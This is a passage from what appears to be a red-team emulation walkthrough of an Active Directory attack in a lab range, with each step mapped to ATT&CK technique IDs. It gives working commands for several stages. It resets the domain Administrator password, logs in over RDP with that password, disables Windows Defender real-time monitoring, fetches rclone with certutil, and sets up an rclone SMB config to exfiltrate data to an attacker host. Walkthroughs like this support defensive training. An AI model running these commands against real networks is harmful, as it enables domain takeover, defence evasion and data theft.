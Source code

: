 You will need to close the current PowerShell window and open it again from `mimikatz` to make sure the new group membership is activated. Don't forget to also re-import `a.dll`. After that, let's reset domain administrator's password.

**Step 2.9**
```PowerShell
[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
```
ATT&CK Techniques: `T1098`


Done! We changed the password of the Domain Admin to the one of our choice and have compromised the domain.

## Part 3

With Domain Admin privileges we can now finally log into the 3rd server.

**Step 3.1**
```bash
[KALI:bash] xfreerdp /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert-ignore
```
ATT&CK Techniques: `T1021.001` `T1078`

Let's now exfiltrate them over `rclone` similarly to Part 2.

But let's do one more quick additional step and disable Realtime Monitoring in Windows Defender on this system because it might complain about `rclone`:

**Step 3.2**
```PowerShell
[FINSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
```
ATT&CK Techniques: `T1562.001`

We can now download the `rclone` executable:

**Step 3.3**
```PowerShell
[FINSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1005`

And create a config file `C:\Temp\r.conf`:

**Step 3.4**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `?`

Then we start the SMB server on Kali:
